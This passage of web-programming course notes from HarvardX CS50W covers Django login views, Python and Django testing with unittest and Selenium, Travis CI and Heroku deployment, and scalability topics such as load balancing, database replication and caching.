        If they aren't logged in, they are redirectd to the login page.
        If they are, the user is directed to their user page.

    -   login_view first checks that a user exists with authenticate,
        which takes the user's username and password and returns that
        user object.

    -   login takes a user and logs them into the authentication system.

    -   logout simply logs the user out.

-   login.html:

> 
>
> &lt;h1&gt;Login&lt;/h1&gt;
>
> 
>
> &lt;div&gt;
>
> {{ message }}
>
> &lt;/div&gt;
>
> 
>
> &lt;form action=&quot;&quot; method=&quot;post&quot;&gt;
>
> 
>
> &lt;input name=&quot;username&quot; type=&quot;text&quot;/&gt;
>
> &lt;input name=&quot;password&quot; type=&quot;password&quot;/&gt;
>
> &lt;input type=&quot;submit&quot; value=&quot;Login&quot;/&gt;
>
> &lt;/form&gt;
>
> 

-   user.html:

> 
>
> &lt;h1&gt;Hello, {{ user.first_name }}&lt;/h1&gt;
>
> &lt;ul&gt;
>
> &lt;li&gt;Currently logged in as: {{ user.username }}&lt;/li&gt;
>
> &lt;li&gt;&lt;a href=&quot;&quot;&gt;Logout&lt;/a&gt;&lt;/li&gt;
>
> &lt;/ul&gt;
>
> 

-   The User contains fields such as first_name, last_name, username,
    etc., but can also be extended.

-   Registering a new user entails adding a new user to the database.
    This can be done through the admin interface with a superuser
    account or using the shell:

-   from django.contrib.auth.models import User

-   

-   user = User.objects.create_user(&quot;alice&quot;, &quot;alice@something.com&quot;,
    &quot;alice12345&quot;)

-   

-   user.first_name = &quot;Alice&quot;

-   

-   user.save()

-   create_user takes the arguments username, e-mail, password.

    1.  [Testing,
        CI/CD](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/59899efb8d1c4fcdbbc9af6adecd62cb/)

**Notes -- Lecture 8: Testing, CI/CD**

{width="1.0432108486439196in"
height="2.277338145231846in"}

# Testing, CI/CD

## Testing

-   As web applications become increasingly sophisticated and complex,
    it becomes increasingly important to thoroughly test them. Testing
    ensures that changes to a function used in many places don't cause
    completely different parts of the application to break. Or,
    functions may behave differently for different types of input, so
    all types of input should be tested to ensure that the application
    handles them well.

-   Here's a basic function, completely separate from any web
    application, to showcase the idea of testing.

> import math
>
> def is_prime(n):
>
> &quot;&quot;&quot;Determines if a non-negative integer is prime.&quot;&quot;&quot;
>
> if n &lt; 2:
>
> return False
>
> for i in range(2, int(math.sqrt(n)):
>
> if n % i == 0:
>
> return False
>
> return True

-   This function checks if an integer is prime by ensuring that it's
    above 2 (the smallest prime) and that it is not evenly divisible by
    any number less than its square root.

-   One way to test this function would be to simply run this function
    in the Python interpreter and manually test it. While this might
    work for a small example, this will ultimately become tedious. The
    next best step is to write a test function.

> from prime import is_prime
>
> def test_prime(n, expected):
>
> if is_prime(n) != expected:
>
> print(f&quot;ERROR on is_prime({n}), expected {expected}&quot;)

-   A simple way to use this test function is to write a short Python
    program that runs this test for a series of inputs. That might look
    like this:

> from prime import is_prime
>
> def test_prime(n, expected):
>
> if is_prime(n) != expected:
>
> print(f&quot;ERROR on is_prime({n}), expected {expected}&quot;)
>
> if &lowbar;&lowbar;name&lowbar;&lowbar; == &quot;&lowbar;&lowbar;main&lowbar;&lowbar;&quot;:
>
> test_prime(-4, False)
>
> test_prime(-3, False)
>
> test_prime(-2, False)
>
> test_prime(-1, False)
>
> test_prime(0, False)
>
> test_prime(1, False)
>
> test_prime(2, True)
>
> test_prime(3, True)
>
> test_prime(4, False)

-   This can be run in the terminal with python tests0.py.

-   Now that the testing is automated, when a change is made
    to prime.py, it is easy to see if the problem is solved.

> for i in range(2, int(math.sqrt(n) + 1):
>
> if n % i == 0:
>
> return False

-   This was a simple off-by-1 error. range returns values starting at
    the first argument and up to, but not including, the second.

-   Running the test file again after this change will produce no
    errors. This does not mean the function is totally correct, only
    that the given tests have been passed. Now, the challenge is to
    write good, comprehensive tests that cover all possible conditions.
    In this case, that might mean testing even and odd numbers, etc.
    This becomes increasingly important for larger applications.

-   Remember also that we do not necessarily only run tests when we
    think things might break. Sometimes, we might do so
    after *refactoring* our code, trying to optimize its functionality.
    The above is_prime() function could, perhaps, be optimized in a more
    'Pythonic' way (Python is somewhat notorious for examples like this)
    as follows:

> import math
>
> def is_prime(n):
>
> return n &gt; 1 and all(n % i for i in range(2, int(math.sqrt(n)) + 1))

-   Breaking this down, there are two conditions being checked:

    -   Is n greater than 1; and

    -   Is it the case that all of the values from 2 up to (and
        including) the square root have a 'truthy' value of True? (If
        so, that means n % i is nonzero for all of them; i.e., n is not
        evenly divisible by any of them.)

-   If, and only if, both of those are true, is the number considered
    prime!

## **assert**

-   A useful Python feature for testing is the built-in assert command,
    which is followed by an boolean expression. If it does not evaluate
    to True, Python will throw an AssertionError.

-   All programs, on exit, return an exit code. Generally speaking, an
    exit code of 0 indicates that everything went well, and any other
    code indicates an error. To examine an exit code in bash after
    running a Python script, use echo &dollar;?.

## **unittest**

{width="1.4812795275590551in"
height="1.8875382764654418in"}

-   unittest is a built-in Python library for testing.
    Testing is_prime with unittest might look like this:

> import unittest
>
> from prime import is_prime
>
> class Tests(unittest.TestCase):
>
> def test_1(self):
>
> &quot;&quot;&quot;Check that 1 is not prime.&quot;&quot;&quot;
>
> self.assertFalse(is_prime(1))
>
> def test_2(self):
>
> &quot;&quot;&quot;Check that 2 is prime.&quot;&quot;&quot;
>
> self.assertTrue(is_prime(2))
>
> def test_8(self):
>
> &quot;&quot;&quot;Check that 8 is not prime.&quot;&quot;&quot;
>
> self.assertFalse(is_prime(8))
>
> def test_11(self):
>
> &quot;&quot;&quot;Check that 11 is prime.&quot;&quot;&quot;
>
> self.assertTrue(is_prime(11))
>
> def test_25(self):
>
> &quot;&quot;&quot;Check that 25 is not prime.&quot;&quot;&quot;
>
> self.assertFalse(is_prime(25))
>
> def test_28(self):
>
> &quot;&quot;&quot;Check that 28 is not prime.&quot;&quot;&quot;
>
> self.assertFalse(is_prime(28))
>
> if &lowbar;&lowbar;name&lowbar;&lowbar; == &quot;&lowbar;&lowbar;main&lowbar;&lowbar;&quot;:
>
> unittest.main()

-   Tests inherits from unittest.TestCase, which signifies that it
    contains a series of tests, each of which is capable of extending
    the basic functionality defined in unittest.TestCase.

-   Each test inside Tests is simply a method with an appropriate
    'docstring' labelling it.

-   unittest has a series of built-in, more advanced and readable assert
    statements. Instead of using assert isPrime(1) == False, simply
    use self.assertFalse(is_prime(1)).

-   unittest.main() will run all the tests.

```{=html}
<!-- -->
```
-   unittest methods include (but are not limited to):

    -   assertEqual

    -   assertNotEqual

    -   assertTrue

    -   assertFalse

    -   assertIn : checks if an item is in a list

    -   assertNotIn : checks if an item is not in a list

### 

### 

### 

### Testing Web Applications with Django

#### **The Back-End**

-   Django has its own testing framework to make it easy to test web
    applications. Test code is found in the application directory
    in tests.py, the one file we did not really consider in Lecture 7.

-   Here's a function that could be in the Flight model and that might
    need to be tested if it is going to be used in a view.

> def is_valid_flight(self):
>
> return (self.origin != self.destination) and (self.duration &gt;= 0)

-   This returns True if the origin and the destination aren't the same
    and its duration is positive.

```{=html}
<!-- -->
```
-   Here's an example flights/tests.py:

> from django.test import TestCase
>
> from .models import Airport, Flight
>
> &pound; Create your tests here.
>
> class ModelsTestCase(TestCase):
>
> def setUp(self):
>
> &pound; Create airports.
>
> a1 = Airport.objects.create(code=&quot;AAA&quot;, city=&quot;City A&quot;)
>
> a2 = Airport.objects.create(code=&quot;BBB&quot;, city=&quot;City B&quot;)
>
> &pound; Create flights.
>
> Flight.objects.create(origin=a1, destination=a2, duration=100)
>
> Flight.objects.create(origin=a1, destination=a1, duration=200)
>
> Flight.objects.create(origin=a1, destination=a2, duration=-100)
>
> def test_departures_count(self):
>
> a = Airport.objects.get(code=&quot;AAA&quot;)
>
> self.assertEqual(a.departures.count(), 3)
>
> def test_arrivals_count(self):
>
> a = Airport.objects.get(code=&quot;AAA&quot;)
>
> self.assertEqual(a.arrivals.count(), 1)
>
> def test_valid_flight(self):
>
> a1 = Airport.objects.get(code=&quot;AAA&quot;)
>
> a2 = Airport.objects.get(code=&quot;BBB&quot;)
>
> f = Flight.objects.get(origin=a1, destination=a2, duration=100)
>
> self.assertTrue(f.is_valid_flight())
>
> def test_invalid_flight_destination(self):
>
> a1 = Airport.objects.get(code=&quot;AAA&quot;)
>
> f = Flight.objects.get(origin=a1, destination=a1)
>
> self.assertFalse(f.is_valid_flight())
>
> def test_invalid_flight_duration(self):
>
> a1 = Airport.objects.get(code=&quot;AAA&quot;)
>
> a2 = Airport.objects.get(code=&quot;BBB&quot;)
>
> f = Flight.objects.get(origin=a1, destination=a2, duration=-100)
>
> self.assertFalse(f.is_valid_flight())

-   TestCase is a extension to the unittest framework that makes it
    easier to test some Django application specific things.

-   ModelsTestCase is a class that, like before, contains functions for
    every test.

-   In the TestCase framework, the setUp function will be run before any
    tests. In this case, some airports and flights are created for the
    tests to check.

    -   The setUp function is actually run before every test, to ensure
        that the tests are independent.

```{=html}
<!-- -->
```
-   Using Django's infrastructure to run this test is quite powerful
    because it makes it easy to run all tests across all applications
    and, because Django knows tests are likely to involve database
    manipulations, it creates a separate test database that tests can
    interact with. This means that setUp functions like the one above
    won't mess up the real database by trying to add fake airports and
    flights for testing purposes.

-   To run the tests, run simply python manage.py test.

#### **Defending Against Bad Data**

-   We can also write methods in our models to prevent against illogical
    or 'bad' data. One instance, for example, might be to try to prevent
    content managers from trying to create flights with the same origin
    and destination, or a non-positive duration. To do this, we can
    override the functionality of some more built-in Django testing
    functions.

-   In airline1/models.py:

> &pound; Add a method that raises &quot;Validation errors&quot; if the data is
> illogical.
>
> def clean(self):
>
> if self.origin == self.destination:
>
> raise ValidationError(&quot;Origin and destination must be different.&quot;)
>
> elif self.duration &lt; 1:
>
> raise ValidationError(&quot;Duration must be positive.&quot;)
>
> &pound; Call this method before trying to add data, overriding the default
> behavior of built-in &apos;save&apos;.
>
> def save(self, &ast;args, &ast;&ast;kwargs):
>
> self.clean()
>
> &pound; This syntax now calls Django&apos;s own &quot;save&quot; function, adding this
> data to the DB (if &apos;clean&apos; was ok).
>
> super().save(&ast;args, &ast;&ast;kwargs)

#### **The Front End**

-   Now that the models have been tested, the next step is to test the
    views.

> from django.db.models import Max
>
> from django.test import Client, TestCase
>
> from .models import Airport, Flight, Passenger
>
> &pound; Create your tests here.
>
> class FlightsTestCase(TestCase):
>
> &pound; &hellip;same setUp and model testing as before&hellip;
>
> def test_index(self):
>
> c = Client()
>
> response = c.get(&quot;/&quot;)
>
> self.assertEqual(response.status_code, 200)
>
> self.assertEqual(response.context&lbrack;&quot;flights&quot;&rbrack;.count(), 2)
>
> def test_valid_flight_page(self):
>
> a1 = Airport.objects.get(code=&quot;AAA&quot;)
>
> f = Flight.objects.get(origin=a1, destination=a1)
>
> c = Client()
>
> response = c.get(f&quot;/{f.id}&quot;)
>
> self.assertEqual(response.status_code, 200)
>
> def test_invalid_flight_page(self):
>
> max_id = Flight.objects.all().aggregate(Max(&quot;id&quot;))&lbrack;&quot;id&lowbar;&lowbar;max&quot;&rbrack;
>
> c = Client()
>
> response = c.get(f&quot;/{max_id + 1}&quot;)
>
> self.assertEqual(response.status_code, 404)
>
> def test_flight_page_passengers(self):
>
> f = Flight.objects.get(pk=1)
>
> p = Passenger.objects.create(first=&quot;Alice&quot;, last=&quot;Adams&quot;)
>
> f.passengers.add(p)
>
> c = Client()
>
> response = c.get(f&quot;/{f.id}&quot;)
>
> self.assertEqual(response.status_code, 200)
>
> self.assertEqual(response.context&lbrack;&quot;passengers&quot;&rbrack;.count(), 1)
>
> def test_flight_page_non_passengers(self):
>
> f = Flight.objects.get(pk=1)
>
> p = Passenger.objects.create(first=&quot;Alice&quot;, last=&quot;Adams&quot;)
>
> c = Client()
>
> response = c.get(f&quot;/{f.id}&quot;)

self.assertEqual(response.status_code, 200)

> self.assertEqual(response.context&lbrack;&quot;non_passengers&quot;&rbrack;.count(), 1)

-   Client simulates a web client that, for testing purposes, can make
    requests to and get responses from a web server. Using Client,
    requests to different pages can be simulated to ensure that the
    expected information is being returned.

-   c.get(&quot;/&quot;) simply uses a Client object to make a GET request to a
    route and returns the response (stored as response). This response
    can be checked by verifying response.status_code and the contents
    of response.contexts.

-   An argument can be passed to a URL using the same curly brace/dot
    notation syntax as before.

-   Flight.objects.all().aggregate(Max(&quot;id&quot;))&lbrack;&quot;id&lowbar;&lowbar;max&quot;&rbrack; returns
    the maximum ID value of any flight. This is for test the response to
    an invalid flight ID in a URL.

## **Selenium**

-   For testing browser behavior, including JavaScript code, a separate
    browser testing tool is necessary. One such tool is Selenium, which
    uses a web driver that allows Python code to programatically pretend
    to be a user interacting with a webpage. Here's an example webpage
    to test that has a counter that can be incremented or decremented
    with two buttons:

> &lt;html&gt;
>
> &lt;head&gt;
>
> &lt;title&gt;Counter&lt;/title&gt;
>
> &lt;script&gt;
>
> document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {
>
> let counter = 0;
>
> document.querySelector(&apos;#increase&apos;).onclick = () =&gt; {
>
> counter++;
>
> document.querySelector(&apos;h1&apos;).innerHTML = counter;
>
> };
>
> document.querySelector(&apos;#decrease&apos;).onclick = () =&gt; {
>
> counter&minus;-;
>
> document.querySelector(&apos;h1&apos;).innerHTML = counter;
>
> };
>
> });
>
> &lt;/script&gt;
>
> &lt;/head&gt;
>
> &lt;body&gt;
>
> &lt;h1&gt;0&lt;/h1&gt;
>
> &lt;button id=&quot;increase&quot;&gt;+&lt;/button&gt;
>
> &lt;button id=&quot;decrease&quot;&gt;-&lt;/button&gt;
>
> &lt;/body&gt;
>
> &lt;/html&gt;

-   Here's the Selenium Python code to test the page:

> {width="2.2228357392825897in"
> height="0.1974825021872266in"}
>
> import os
>
> import pathlib
>
> import unittest
>
> from selenium import webdriver
>
> &pound; A convenience function to turn a filename into a full path, as
> needed for a browser
>
> def file_uri(filename):
>
> return pathlib.Path(os.path.abspath(filename)).as_uri()
>
> driver = webdriver.Chrome()
>
> class WebpageTests(unittest.TestCase):
>
> def test_title(self):
>
> driver.get(file_uri(&quot;counter.html&quot;))
>
> self.assertEqual(driver.title, &quot;Counter&quot;)
>
> def test_increase(self):
>
> driver.get(file_uri(&quot;counter.html&quot;))
>
> increase = driver.find_element_by_id(&quot;increase&quot;)
>
> increase.click()
>
> self.assertEqual(driver.find_element_by_tag_name(&quot;h1&quot;).text, &quot;1&quot;)
>
> def test_decrease(self):
>
> driver.get(file_uri(&quot;counter.html&quot;))
>
> decrease = driver.find_element_by_id(&quot;decrease&quot;)
>
> decrease.click()
>
> self.assertEqual(driver.find_element_by_tag_name(&quot;h1&quot;).text, &quot;-1&quot;)
>
> def test_multiple_increase(self):
>
> driver.get(file_uri(&quot;counter.html&quot;))
>
> increase = driver.find_element_by_id(&quot;increase&quot;)
>
> for i in range(3):
>
> increase.click()
>
> self.assertEqual(driver.find_element_by_tag_name(&quot;h1&quot;).text, &quot;3&quot;)
>
> if &lowbar;&lowbar;name&lowbar;&lowbar; == &quot;&lowbar;&lowbar;main&lowbar;&lowbar;&quot;:
>
> unittest.main()

-   file_uri takes in an HTML file and returns the URL that would access
    that file.

-   webdriver.Chrome() is one of many built-in Selenium web drivers.
    This one in particular is for interacting with Google Chrome.

-   driver.get will open up whatever URL is passed in.

-   Each button is programmatically tested by finding
    each button element by ID and calling the click function to simulate
    a user clicking on it. Then, whatever the text display is can get
    verified to match the expected value.

## **Continuous Integration and Continuous Delivery**

{width="2.9667672790901136in"
height="1.7083486439195101in"}

3 parts: "you", "github" and "travis"

-   CI (continuous integration) consists of frequent integration and
    merging of code changes between different project contributors back
    to a main branch along with automated unit testing to verify these
    integrations. Likewise, CD (continuous delivery) consists of making
    frequent, incremental updates to a web application as those updates
    are finished.

-   There are many different tools with the purpose of facilitating CI
    and testing. One of the more popular ones and the one used in this
    class is Travis. When code is pushed to GitHub, GitHub will notify
    Travis of those changes. Travis will pull that code and run some
    tests on it. GitHub will then be notified of the test results.

-   Travis's configuration file, which lists any tests, installations,
    etc., is written in the YAML file format. YAML files are composed of
    keys and values, similar to JSON.

> key1: value1
>
> key2: value2
>
> key3:
>
> &minus; item1
>
> &minus; item2
>
> &minus; item3
>
> key4:
>
> nested_key1: value3
>
> nested_key2:
>
> &minus; item4
>
> &minus; item5

-   In particular, a very simple Travis YAML file will look something
    like this:

> language: python
>
> python: 3.6
>
> install: pip install -r requirements.txt
>
> script: python manage.py test

-   install lists the commands that should be run to install any
    necessary components before testing. Listing any requirements, such
    as Django, in requirements.txt will automate that installation.

-   script lists the command for actually running the tests.

-   To actually configure Travis, go to https://travis-ci.org and sync a
    GitHub account. Then, any repositories that should be tracked by
    Travis can be selected. After making a push to GitHub, it will be
    visible on the Travis website as a 'build' and will execute the
    commands as dictated in the configuration file. Travis is able to
    check whether or not tests were passed by checking the exit code of
    the testing command. If a build fails any tests, this will be marked
    on GitHub's commit log with a red X. A build currently being tested
    will be marked with a yellow dot, and a successful build will be
    marked with a green check.

## **Continuous Deployment**

### Deploying our app to Heroku:

-   To creating a Heroku app, create an account if you don't have one or
    login if you do.

-   Create a new app specifying its name which has to be unique and its
    region.

-   Generating a Heroku API key to Authorize Travis CI:

    -   Head to **Applications** tab under the account settings.

    -   Under **Authorizations**, click Create Authorization.

    -   Add a description and optionally specify a duration (in seconds)
        after which this API key will expire (you likely don't want to
        expire this if you intend for your project to run indefinitely)
        then click Create.

-   Provisioning a PostgreSQL database:

    -   Head to your app's resources dashboard which should have a URL
        of the
        form https://dashboard.heroku.com/apps/&lt;APP-NAME&gt;/resources where
        APP NAME is the actual name of your app. In our example, it
        was https://dashboard.heroku.com/apps/kzidane-airline/resources for
        example.

-   Under **Add-ons** find Heroku Postgres.

-   Select the item and click Provision to create your PostgreSQL
    database.

-   Finding the database credentials:

    -   Click on the Database that you just created then click the
        Settings tab near the top.

    -   Next to Database Credentials click **View Credentials**.

-   Setting environment variables *for the Heroku app*:

    -   In your app settings which should be
        at https://dashboard.heroku.com/apps/&lt;APP NAME&gt;/settings,
        click **Reveal Config Vars**.

    -   Add the following variables (recall these are accessed in
        airline4/airline/settings.py in the demo):

        -   DATABASE_USER (should be the value of User from database
            credentials)

        -   DATABASE_PASSWORD (should be the value of Password from
            database credentials)

        -   DATABASE_NAME (should be the value of Database from database
            credentials)

        -   DATABASE_HOST (should be the value of Host from database
            credentials)

        -   DATABASE_PORT (should be the value of Port from database
            credentials)

-   Viewing the logs (to see project behavior)

    -   In your app dashboard which should be
        at https://dashboard.heroku.com/apps/&lt;APP NAME&gt; click on More
        on the top-right then click View logs.

### Required files for Heroku

-   At the root of your Django project folder, you have to have
    a requirements.txt listing any Python package dependencies your
    project uses (e.g., Django itself), one per line.

-   You also must have a file called Procfile, which looks like the
    below:

> web: gunicorn &lt;PROJECT NAME&gt;.wsgi

-   where PROJECT NAME is the actual project name (for example, web:
    gunicorn airline.wsgi) to let Heroku know how to serve your project.

### Using Travis to allow for Continuous Delivery of our Application

-   Adding environment variables to your project:

-   While logged into Travis CI, head
    to https://travis-ci.com/USERNAME/REPOSITORY/settings where USERNAME is
    your actual GitHub username and REPOSITORY is the name of your
    repository. In our example, it
    was https://travis-ci.com/web50student1/airline4/settings.

-   In the *Environment Variables* section add the following environment
    variables:

    -   DATABASE_USER whose value is postgres

    -   DATABASE_PASSWORD whose value is postgres

    -   DATABASE_NAME whose value is testdb

    -   DATABASE_HOST whose value is 0.0.0.0

    -   DATABASE_PORT whose value is 5432

    -   HEROKU_API_KEY whose value is the Heroku API key you generated
        above.

-   The first five of the above needed to be added on Travis to allow it
    to perform **tests**, but these are not our production credentials;
    that's why those were added to Heroku, before!

-   The sixth of these is an environment variable that Travis needs in
    order to actually deploy our code once it finishes testing (without
    it, anyone could deploy to our Heroku app '" probably not ideal!)

-   Lastly, we need to teach Travis to deploy our code after testing it.
    To do so, we need to modify our .travis.yml file somewhat. At the
    end of your .travis.yml add the following keys and values to have
    Travis CI deploy to your Heroku app after a successful build of the
    master branch:

> deploy:
>
> provider: heroku
>
> api_key: &dollar;HEROKU_API_KEY
>
> app: **APP**
>
> run: python manage.py migrate
>
> on: master
>
> Where **APP** is the name of your actual Heroku app as you specified
> above.

1.  [GitHub, Travis
    CI](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/e90a00d9dea441e59697979171766d59/)

**Notes -- Lecture 9: GitHub, Travis CI**

# GitHub, Travis CI

## GitHub

-   GitHub Classroom is a tool for creating programming exercises or
    problem sets and distributing them to students enrolled in a course.
    This will be used as an example porject to showcase a workflow for
    developing web applications.

    -   The first step is to fork the main classroom repository and
        clone it onto a computer.

    -   When making improvements and changes to this repository, a good
        paradigm to follow is the feature-branch development strategy,
        in which a new branch is made for each feature, bug report,
        etc., which is merged back into the master branch as soon as
        it's done and ready to be released. This is one example of a
        continuous deployment strategy.

        -   A completely different development strategy is
            released-based development, which is more common in desktop
            applications or applications that are shipped out. In these
            applications, developers will build up, for example, the
            version 1.0 branch, while also working on a 1.1 branch, even
            though the latter will only be released 6 months later,
            perhaps.

    -   Once a feature has been developed in a separate branch, those
        changes should be pushed to the personal, forked version of the
        repository. Then, a pull request should be opened on the main
        repository. This repository is then sent to Travis as a build to
        be tested. Any co-developers can also review the pull request,
        provide feedback, and discuss the changes.

    -   Once the pull request is reviewed and accepted, the next step is
        to actually deploy the new version of the application. Ideally,
        deployment should be continual. The more time spent building up
        a separate branch without integration and deploying it, the
        harder it will be to integrate and deploy it successfully in the
        future.

        -   One way to progressively deploy a large feature is with
            feature toggles. A feature toggle consists of a break in the
            code where one of two versions can be chosen based on
            certain variables. This can be used to deploy new features
            without impacting all users at once. This could be used, for
            example, to let a small group of beta testers try out the
            new feature. This feature can now be continually deployed
            and developed, and when the time comes, it can be deployed
            to an increasing number of users. Ultimately, the feature
            toggle can be removed as the feature becomes fully deployed.

##  {width="2.758485345581802in" height="1.1536712598425196in"}

## **Travis CI**

{width="2.019656605424322in"
height="1.5669050743657043in"}

{width="2.0058923884514437in"
height="0.6979571303587052in"}

Deploy to check.io -- travis-ci/travis-build under github

-   To review, continuous integration is a development strategy that
    revolves around continually adding code to a codebase. CI can also
    refer to a tool that helps facilitate this process. Travis is one
    such tool. (Anna Nagy -- speaker)

-   A large part of CI is testing (test-driven development). Tests can
    be either manual or automatic, functional or non-functional. Manual
    tests involve simply checking features by hand. A more preferred
    approach is to write automated tests, which are scripts a machine
    can run to verify an assertion. Functional tests check a specific
    functionality of an application and ensures that it meets all the
    expected requirements. From bottom to top, the different levels of
    testing can be thought of as unit testing, component testing (check
    whole packages), integration testing (check that packages work
    together), and end-to-end testing (check the entire flow). Tests
    should ensure that things both work and fail as they should. Testing
    should happen as development progresses, not at the end.

-   Another part of the CI workflow is the build. A build is any
    complete, tested version of an application (it may have failed or
    passed those tests), but build can also be verb that describes the
    testing process.

-   CI systems, as opposed to simply testing on a single machine, help
    to ensure reproducibility and facilitate collaboration. They lead to
    tidy deploys that have already been tested in an environment as
    close to the production environment as possible and a faster
    development flow due to improved confidence in code and pull
    requests. CI systems allow for automation for many parts of the
    development process.

-   CD is a natural result of CI. Because every commit is tested, every
    commit is deployable.

> Git status
>
> Git add &lt;filename changed&gt;
>
> Git commit --m "explanation of changes made to code"
>
> Git push origin an-add-to-md-string (add emoji to markdown label)
>
> See:
>
> TravisCI/travisweb on GitHub.com

1.  [Scalability](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/1b5048f6180341eba211afb29fdc0918/)

**Notes -- Lecture 10: Scalability**

# **Scalability**

-   After a web application has been developed, there are still issues
    that need to be considered when deploying to the internet. A big
    concern is scalability. An application can work well with only a few
    users, but it also needs to be able to support many more people
    accessing data and using the application simultaneously. The vast
    majority of the time, there is no one best way to scale, but rather
    a number ways with different trade-offs that should be taken into
    account.

## **Server Scaling**

-   A server can only perform a finite number of tasks per second,
    measured in hertz. Modern servers and processors often have speeds
    in gigahertz. The operations being measured are low-level: adding
    two numbers together, for example. Due to limited server speed, a
    server can only respond to a limited number of users in a given
    second.

-   Determining the how much a server can handle is a process called
    benchmarking. It is not a good idea to figure out a server's
    capacity by waiting for it to hit capacity.

-   One response to limited server capacity is 'vertical scaling': give
    the server more resources (memory, computing power) so it can handle
    additional load. Vertical scaling has its limits, however. A server
    can only be built up so much.

-   Another approach is 'horizontal scaling': add more servers to handle
    additional load.

-   With horizontal scaling, when a user tries to connect to the
    application, another piece of hardware, a load balancer, determines
    which server to send the user to. The load balancer can decide where
    to send a user based on a variety of different algorithms:

    -   **Random Choice**: Every time a user connects, a random server
        is chosen.

    -   **Round Robin**: The first connection is directed to server 1,
        the second to server 2, and so on, in a circular fashion.

    -   **Fewest Connections**: Whichever server is currently serving
        the fewest users will receive any new users.

-   Random choice and round robin might end up loading certain servers
    more heavily, and fewest connections might not always be a perfect
    measure of actual computational load. Putting a lot of effort into
    load balancing, however, creates an entirely new problem of creating
    another chokepoint that could get bogged down by a large number of
    users.

-   A general problem with the load balancing model is that when a user
    is accessing multiple different pages repeatedly and making multiple
    requests, the load balancer might end up sending the user to a
    different server. The different servers a user has been directed to
    might not have the user's session synchronized, for example.
    Therefore, there has to be some sort of 'session-aware' load
    balancing.

    -   **Sticky Session**: After the initial connection, send the user
        to the same server repeatedly.

    -   **Sessions in Database**: Store all session information in a
        universally accessible database. This does result in more
        communication time, however.

    -   **Client-Side Sessions**: Store session information client-side,
        through a 'cookie' for example, which is a collection of
        user-related session info which is sent with all requests. This
        might result in security issues, since cookies could be
        fabricated, etc.

-   The amount of traffic that a web application receives is often
    varied, which makes it difficult to set a fixed, permanent number of
    servers that should be used. Underestimating traffic could result in
    servers being overloaded, whearas overestimating could result in
    wasted resources. 'Autoscaling' is a tool offered by many
    cloud-computing servers which scales resources based on how much
    traffic is coming in. Often, a minimum and maximum number of servers
    can be set, and then a load balancer will take care of the rest.

-   'Autoscaling' and other features are one of hthe benefits of 'cloud
    computing' which allows web applications to be hosted on remote
    servers, as opposed to having to set up a server in the actual
    office of the company who owns the application, for example. Other
    benefits of cloud computing include not having to worry about IT
    services, etc. to actually maintain the server.

-   If one server goes offline, session data could be lost (depending on
    implementation), or a user could be continually redirected to an
    offline server. In order for a load balancer to be aware of the
    state of the servers, the servers should send a 'heartbeat' back to
    the balancer at a known interval. Faster heartbeats allow for a more
    current idea of server status, but slower heartbeats allowed for
    save energy and resources.

### Cookies

-   A simple way to ensure that a user is sent to the same server
    repeatedly is to give the user a cookie to send b ack which simply
    tells the load balancer what server the user came from.

-   Cookies can also store session information directly. Flask, for
    example, uses 'signed cookies' which stores all the users session
    information. These sessions can be something as simple as a
    dictionary that contains a user ID and any other pertinent info.

-   One issue with cookies is increasing size as data becomes more
    complex. In terms of security, cookies can be stolen to gain access
    to a user's account. Even without access to a cookie, storing
    explicitly formatted data (integers for user ids) is easily modified
    and faked. By including a private key in a web application, cookies
    can be generated with a signature based on the data and the private
    key. This signature should be difficult enough to generate that it
    can be received with reasonable confidence that it's genuine.

## **Scaling Databases**

-   Databases can get overloaded in much the same way as servers,
    especially if a single database is supporting multiple servers. If
    there is only one database, then that's a 'single point of failure'.
    If the database drops, the whole system comes down. A load balancer
    is another example of single point of failure.

### Database Partitioning

-   Querying large database tables can become complicated and
    time-consuming. Those large tables can often be split up into
    multiple, more managable and more efficient tables.

-   Vertical database partitioning consists of separating a table by
    decreasing the number of columns. This has already been seen in the
    recurring airline example when foreign keys were used to partition a
    table into a locations table and a flights table.

-   Horizontal database partitioning consists of splitting up the rows
    into logical groups. For example, an entire flights table could be
    split up into a table for domestic flights and another for
    international flights. Both of these tables have the same columns,
    but fewer rows. This partitioning results in faster and more
    specific queries. This separation does require more code to manage,
    however. Any column changes now need to be updated on many tables. A
    query might actually be slower if data from two tables needs to be
    accessed.

-   Database 'sharding' consists of dividing a database amongst separate
    servers. This can help eliminate the slowdown from having to query
    two tables at once, assuming those two tables are on separate
    servers. Joining tables, however, becomes slower.

### Database Replication

-   Creating multiple copies of the same database allows for the
    distribution of load.

-   A single-primary replication model has a single database which can
    be both read from and written to. Other, secondary databases, can
    only be read from. Any writes to the primary database are
    automatically passed to secondary databases. Data is both replicated
    and synchronized.

    -   Potential issues include race conditions. Single-primary
        replication is less favorable for applications which expect a
        lot of writes, since there is still a single point of failure
        with the primary database.

-   A multi-primary replication model allows for any number of databases
    which can be read from and written to. Any writes are copied to
    other databases.

    -   Similar issues to race conditions can occur. If two users try to
        register themselves on two different databases, they might end
        up with the same primary key user ID, which will be an issue
        when the databases try to update each other. Two databases might
        try to update the same row at the same time. Whatever they might
        be, multi-primary replication systems need rules to resolve
        issues with simultaneous updates.

### Caching

-   Caching seeks to avoid wasting time performing operations that have
    already been done before, namely, by taking data and storing it
    locally temporarily. For a relatively static homepage, for example,
    it doesn't make much sense to regenerate a page every time a user
    requests it repeatedly.

-   Client-side caching, performed by the web browser, stores files that
    are likely to be static (.css or .js files, for example) to be
    re-used. This saves time and computational energy. Inside an HTTP
    response, the server adds HTTP headers, one of which might
    be Cache-Control: max-age=86400. This sets the maximum time the page
    should be cached for (1 day, in this case). After that, the server
    should be queried again.

    -   Issues can occur on both sides of the timeframe. If a page
        changes sooner than expected, a user might not see those
        changes. If a page changes later then expected, resources are
        waseted querying for the same old page. To circumvent this, an
        identifier can be associated with the webpage or resource which
        is modified after any update. In HTML, this is an ETag, a long
        hexadecimal sequence that is uniquely associated with a version
        of a resource. If the server sees that this identifier hasn't
        changed it can send back a '304 Not Modified' response code to
        indicate the cache is not 'stale'.

    -   If a cache is serving an entire network, private pages, such as
        social media pages, shouldn't be cached and accessed by
        different users. To help with this, a cache can be set as either
        public or private in the HTTP header.

-   Server-side caching adds a cache to the server-side web, such that
